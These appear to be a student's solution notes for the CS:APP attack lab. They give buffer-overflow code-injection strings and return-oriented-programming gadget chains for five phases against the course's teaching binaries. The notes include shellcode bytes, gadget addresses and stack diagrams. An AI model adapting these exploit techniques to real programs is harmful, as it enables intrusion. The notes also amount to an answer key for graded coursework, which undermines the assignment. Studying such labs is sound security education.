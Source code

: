 ##x86-64 is little-endian so low -> high
#Phase1

getbuf: $0x28.        Buffer :40 bytes
Input :40 +address of touch1
Touch1 address:0x0000000000 40 17 c0
We should pass :c0 17 40
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00
Command:./hex2raw -i ctarget_1.txt |./ctarget -q


#phase2
move cookie to rdi, push address of touch2 to stack,then return jump to touch2

mov  $0x59b997fa,%rdi     
pushq $0x4017ec
ret 

0000000000000000 <_start>:
   0:    48 c7 c7 fa 97 b9 59     mov    $0x59b997fa,%rdi
   7:    68 ec 17 40 00           push   $0x4017ec
   c:    c3                       ret          
buffer start 
rsp:0x5561dc78 

##explain: we put our shellcode into stack by gets function then getbuf return (it should return to test(), but now it return to where buffer stars),our shellcode is in there ,so it can be executed
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 

##what in stack
00 00 00 00 55 61 78 dc <-address of shell code ,which stored in %rsp 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 c3 00 40 ec 17    
68 59 b9 97 fa c7 c7 48  <- shellcode %rsp point to this 

48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 



#phase3
since hexmatch() and strncmp push data on stack ,origin buffer of getbuff may be overwrite ,so cannot use this to store string
use buffer of test to store 

sting                            <--  0x5561dca8
address of shellcode:0x5561dc78  <--  0x5561dca0
0
0
0
shellcode                        <-- 0x5561dc78

shellcode:

mov $0x5561dca8, %rdi   #move address of string to rdi
pushq $0x4018fa         #push address of touch3
retq                      

coookie  59b997fa 
ascii:  35 39 62 39 39 37 66 61 00

0000000000000000 <_start>:
   0:    48 c7 c7 a8 dc 61 55     mov    $0x5561dca8,%rdi
   7:    68 fa 18 40 00           push   $0x4018fa
   c:    c3                       ret

48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00

 

#return oriented programming

#phase4

popq %rax          58 90 c3       0x4019ab
mov %rax  ,%rdi    48 89 c7 c3    0x4019a2


 
 00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    eax,[rdi-0x3c3876b8]
  4019a6:       c3                      ret

00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    eax,[rdi-0x6fa78caf]
  4019ad:       c3                      ret


coookie  59b997fa 
touch2:0x4017ec

satck 
touch2 address
mov %rax  ,%rdi address 
coookie
popq %rax address 
buffer 

when getbuf return pop cookie to %rax,then move it to %rdi and go to touch2

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00



#phase5



1.%rsp->%rdi
2.offset of string ->%rsi
3.lea(%rdi,%rsi,1),%rax then %rax->%rdi  pass address of string to rax
4.call touch3

movq %rsp,%rax    pass %rsp->%rdi
movq %rax,%rdi 

popq %rax(offset) #pass offset value of string
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi

lea(%rdi,%rsi,1),%rax 
mov %rax,%rdi

0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    eax,[rdi-0x1f76b7bf]
  401a09:       c3                       ret

**48 89 e0 c3** movq %rsp,%rax  0x401a06 

00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    eax,[rdi-0x3c3876b8]
  4019a6:       c3                      ret
 **48 89 c7 c3** movq %rax,%rdi   0x4019a2
 
00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    eax,0xc3905829
  4019cf:       c3                      ret

**58 90 c3** popq %rax    0x4019cc

00000000004019db <getval_481>:
  4019db:       b8 5c 89 c2 90          mov    eax,0x90c2895c
  4019e0:       c3                      ret
**89 c2 90 c3** movl %eax,%edx   0x4019dd

 0000000000401a6e <setval_167>:
  401a6e:       c7 07 89 d1 91 c3       mov    DWORD PTR [rdi],0xc391d189
  401a74:       c3                      ret

**89 d1 91 c3** movl %edx,%ecx  0x401a70

0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    eax,[rdi-0x6f6f3177]
  401a17:       c3                      ret

**89 ce 90 90 c3** movl %ecx,%esi 0x401a13

 
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    rax,[rdi+rsi*1]
  4019da:       c3                      ret
**48 8d 04 37 c3** lea(%rdi,%rsi,1),%rax  0x4019d6

00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    eax,[rdi-0x3c3876b8]
  4019a6:       c3                      ret

**48 89 c7 c3** mov %rax,%rdi   0x4019a2


stack
35 39 62 39 39 37 66 61 00   cookie
touch3                 0x4018fa
mov %rax,%rdi          0x4019a2
lea(%rdi,%rsi,1),%rax  0x4019d6
movl %ecx,%esi         0x401a13
movl %edx,%ecx         0x401a70
movl %eax,%edx         0x4019dd
0x48
popq %rax              0x4019cc
movq %rax,%rdi         0x4019a2
movq %rsp,%rax         0x401a06
buffer


00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
 

